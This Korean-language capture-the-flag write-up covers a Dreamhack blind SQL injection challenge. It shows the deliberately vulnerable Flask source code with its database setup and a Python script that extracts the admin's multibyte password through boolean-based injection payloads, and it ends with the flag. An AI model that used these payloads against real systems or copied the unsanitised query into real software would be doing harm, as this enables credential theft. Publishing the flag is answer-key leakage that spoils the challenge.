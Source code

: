 ## Blind SQL Injection Advanced
<hr style="border-top: 1px solid;"><br>

```python
import os
from flask import Flask, request, render_template_string
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'user_db')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
{% if nrows == 1%}
    <pre style="font-size:150%">user "{{uid}}" exists.</pre>
{% endif %}
'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

<br>

```php
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;

```

<br>

![image](https://user-images.githubusercontent.com/52172169/161065444-91705e02-5003-4878-9cf6-d562df1a6669.png)

<br>

관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

upw 길이는 27이라고 생각할 수 있으나 한글 즉, unicode가 껴있기 때문에 확실하지 않다.
: 비밀번호의 정확한 길이는 char_length 함수를 이용해서 구할 수 있다.
: CHAR_LENGTH 함수는 문자의 Byte 수를 계산하지 않고 단순히 몇 개의 문자가 있는지를 가져오는 함수

<br>

따라서 ascii 함수 대신에 멀티바이트 문자도 계산해주는 ord 함수를 사용해야 한다.

아스키코드 값은 1바이트(8비트), 멀티바이트는 2바이트(16비트), n바이트이다.

```python
import requests

url='http://host1.dreamhack.games:{port}/'
headers={'Content-Type':'application/x-www-form-urlencoded'}

upw='DH{'

for i in range(4,50): # 비밀번호 길이는 char_length로 정확하게 구할 수 있었음
	bit_len=0
	for j in range(1,33):
		payload={'uid':"admin' and if(length(bin(ord(substr(upw,"+str(i)+",1))))="+str(j)+",1,0)#"}
		res=requests.get(url, headers=headers, params=payload)
		if "exists" in res.text:
			bit_len=j
			break
			
	print("bit_len : "+str(bit_len))
	sub_bit=''
	for k in range(1,bit_len+1):
		payload={'uid':"admin' and if(substr(bin(ord(substr(upw,"+str(i)+",1))),"+str(k)+",1)=1,1,0)#"}
		res=requests.get(url,headers=headers, params=payload)
		if "exist" in res.text:
			sub_bit+='1'
		else:
			sub_bit+='0'

	print("bit: {}".format(sub_bit))
	# upw+=chr(int(sub_bit,2))
	upw+=int.to_bytes(int(sub_bit,2),(bit_len+7)//8, "big").decode("utf-8") # 기본 8bit 단위로 나누는 것
	print("upw : {}".format(upw))
```

<br>

Rubiya의 XAVIS 문제를 풀 때도 비밀번호가 멀티바이트인 한글로 되어있어서 chr을 이용해서 바꿨었는데 그 때는 16bit여서 chr로 충분히 가능했던 것 같다.

16bit은 chr이 변환 가능한 값의 최대값인 0x110000(```1 0001 0000 0000 0000 0000```)에서 벗어나지 않기 때문이다.

이번에는 24bit이기도 했고, 0x110000에도 벗어나서 chr로는 할 수 없었던 것. 

웬만하면 정수를 바이트로 변환할 때는 ```int.to_bytes```를 이용하는 것이 편할 것 같다.

<br>

+ Flag : ```DH{이것이비밀번호!?}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
